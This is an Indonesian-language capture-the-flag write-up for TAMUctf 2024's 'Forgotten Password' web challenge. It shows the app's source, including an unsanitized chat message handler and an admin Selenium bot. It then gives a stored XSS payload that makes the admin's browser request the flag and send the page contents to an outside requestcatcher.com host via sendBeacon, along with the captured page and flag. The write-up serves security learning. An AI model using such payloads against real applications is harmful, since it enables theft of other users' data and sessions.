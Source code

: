 # Forgotten Password - Web - tamuctf-2024

Pada challenge kali ini kita dihadapkan aplikasi yang mirip seperti discord, kita bisa melakukan chatting dan ketika kita memasukan `/flag`, maka sistem akan memunculkan flag, namun hanya admin yang bisa membaca flag tersebut. terdapat juga kerentanan `XSS` yang bisa kita manfaatkan untuk memaksa admin untuk membuka kan `flag` untuk kita dan mengirimkannya ke `webhook`.

## Source Code
### Events.py
```python
from src import socketio, db
from src.util.db_schema import Submission
from src.util.bot import view_message

from flask_socketio import emit, join_room
from flask_login import current_user, login_required
from flask import current_app
from time import sleep


@socketio.on('join')
@login_required
def handle_join():
    join_room(current_user.username)


@socketio.on('json')
@login_required
def handle_message(json):
    if json['message'] != '':
        text = json['message']
        time = json['time']
        dst = json['to']
        src = current_user.username

        message_content = f"""
            <div class="message">
                <span class="sender">{src}</span>
                <span class="timestamp">{time}</span>
                <p>{text}</p>
            </div>
        """

        emit('message', {'to': dst, 'from': src, 'content': message_content}, room=dst)
        if dst != src:
            sleep(0.5)
            emit('message', {'to': src, 'from': src, 'content': message_content}, room=src)

        if dst == 'admin#0000' and '<' in text:
            submission = Submission(message=text)
            db.session.add(submission)
            db.session.commit()
            view_message(submission.id)


@socketio.on('flag')
@login_required
def flag_command():
    msg = 'Only admin#0000 can view the flag.'
    if current_user.username == "admin#0000":
        msg = current_app.config['FLAG']

    message_content = f"""
        <div class="message">
            <span class="sender">System</span>
            <p>{msg}</p>
        </div>
    """

    emit('message', {'to': current_user.username, 'from': current_user.username, 'content': message_content}, room=current_user.username)
```
Berdasarkan kode diatas, terlihat bahwa message yang kita masukan akan langsung di masukan ke html tanpa adanya sanitasi, ini bisa kita manfaatkan untuk melakukan serangan `XSS`

### Bot.py
```python
from src.util.db_schema import User

from selenium import webdriver
from flask import current_app
from flask.sessions import SecureCookieSessionInterface

import time


def generate_admin_cookie():
    admin = User.query.filter_by(username='admin#0000').first()
    session = {'_user_id': admin.uid}
    session_interface = SecureCookieSessionInterface()
    return session_interface.get_signing_serializer(current_app).dumps(dict(session))


def view_message(submission_id):
    chrome_options = webdriver.ChromeOptions()
    chrome_options.add_argument('--headless')
    chrome_options.add_argument('--incognito')
    chrome_options.add_argument('--no-sandbox')
    chrome_options.add_argument('--disable-setuid-sandbox')
    chrome_options.add_argument('--disable-gpu')
    chrome_options.add_argument('--disable-dev-shm-usage')
    chrome_options.add_argument('--disable-background-networking')
    chrome_options.add_argument('--disable-extensions')
    chrome_options.add_argument('--disable-sync')
    chrome_options.add_argument('--disable-translate')
    chrome_options.add_argument('--metrics-recording-only')
    chrome_options.add_argument('--mute-audio')
    chrome_options.add_argument('--no-first-run')
    chrome_options.add_argument('--safebrowsing-disable-auto-update')
    chrome_options.add_argument('--js-flags=--noexpose_wasm,--jitless')

    client = webdriver.Chrome(options=chrome_options)
    client.set_page_load_timeout(5)
    client.set_script_timeout(10)

    payload = f'http://localhost:{current_app.config["PORT"]}/botview/{submission_id}'

    client.get('http://localhost:8000/')
    client.add_cookie({'name': 'session', 'value': generate_admin_cookie()})
    client.get(payload)
    time.sleep(5)

    client.quit()
```
Pada kode diatas, terdapat Bot yang akan melakukan`view_message`, selama message yang kita kirimkan menuju ke user `admin#0000` atau di dalam text mengandung `<`, maka admin akan melakukan `view_message` message yang kita kirimkan.

Artinya jika kita melakukan serangan `XSS` dan menambahkan `socket.emit('flag')` pada payload `XSS`, maka payload `XSS` ini akan di execute di browser admin juga, dan admin akan membacakan flag untuk kita dan mengirimkannya ke webhook.

## Get The Flag
Masuk ke halaman chat dan masukan payload XSS berikut
```html
<img src=x onerror="setTimeout(()=>{socket.emit('flag');setTimeout(()=>{navigator.sendBeacon('https://bianapis.requestcatcher.com/test?',document.body.innerHTML)},500);},500)">
```

```html
          <strong>admin#0000</strong>
        </a>
        <ul class="dropdown-menu dropdown-menu-dark text-small shadow" aria-labelledby="dropdownUser1">
          <li><a id="logout-button" class="dropdown-item" href="/api/auth/logout">Sign out</a></li> 
        </ul>
      </div>
    </div>
    <div class="container">
      <div id="chat" class="chat">
        <img src="x" onerror="setTimeout(()=>{socket.emit('flag');setTimeout(()=>{navigator.sendBeacon('https://bianapis.requestcatcher.com/test?',document.body.innerHTML)},500);},500)">
      
        <div class="message">
            <span class="sender">System</span>
            <p>gigem{its_like_xss_but_with_extra_steps}</p>
        </div>
    </div>
      <input id="message-box" type="text" class="message-box" placeholder="Message">
    </div>
    <div class="modal fade" id="new-dm" tabindex="-1">
      <div class="modal-dialog modal-dialog-centered">
        <div class="modal-content" style="background: #1e2124 !important;">
          <div class="modal-header" style="border: none">
            <h1 class="modal-title fs-5 text-white">Start DM</h1>
            <button type="button" class="btn-close btn-close-white" data-bs-dismiss="modal"></button>
          </div>
          <div class="modal-body">
            <input id="new-dm-box" type="text" class="message-box" placeholder="example#1234">
          </div>
          <div class="modal-body">
            <button type="button" class="btn btn-primary" data-bs-dismiss="modal" onclick="new_dm()">Add</button>
          </div>
        </div>
      </div>
    </div>
```
